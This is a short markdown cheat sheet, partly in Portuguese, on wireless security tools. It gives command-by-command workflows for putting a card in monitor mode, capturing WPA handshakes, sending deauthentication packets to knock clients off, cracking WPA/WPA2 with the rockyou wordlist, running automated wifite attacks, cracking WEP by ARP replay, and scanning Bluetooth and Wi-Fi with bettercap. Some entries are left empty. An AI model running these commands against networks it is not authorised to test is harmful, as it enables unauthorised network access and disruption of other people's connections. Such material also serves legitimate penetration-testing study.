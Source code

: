  Wireless Security Tools

# WiFi Reconnaissance

 Aircrack-ng Suite
- aircrack-ng: WEP/WPA cracking


 Bluetooth Security

 Bluez Tools
- hcitool: Bluetooth device scanning
- bluetoothctl: Bluetooth management
- l2ping: Bluetooth ping

 Bettercap
- 

Wireshark
- Packet Analysis: Análise de pacotes

# Scripts Úteis

 Aircrack-ng workflow
 1. Ativar monitor mode
airmon-ng start wlan0

 2. Descobrir redes
airodump-ng wlan0mon

 3. Capturar handshake
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon

 4. Deauth attack (noutra terminal)
aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF wlan0mon

 5. Crack WPA/WPA2
aircrack-ng -w /usr/share/wordlists/rockyou.txt capture-01.cap

 Wifite automated attack
wifite --wpa --dict /usr/share/wordlists/rockyou.txt

 WEP cracking
 1. Capture packets
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w wep wlan0mon

 2. ARP replay attack
aireplay-ng -3 -b AA:BB:CC:DD:EE:FF -h CLIENT_MAC wlan0mon

 3. Crack WEP
aircrack-ng wep-01.cap

 Bluetooth scanning
hcitool scan
bluetoothctl
scan on
pair MAC_ADDRESS

 Bettercap
bettercap -iface wlan0mon
wifi.recon on
wifi.show
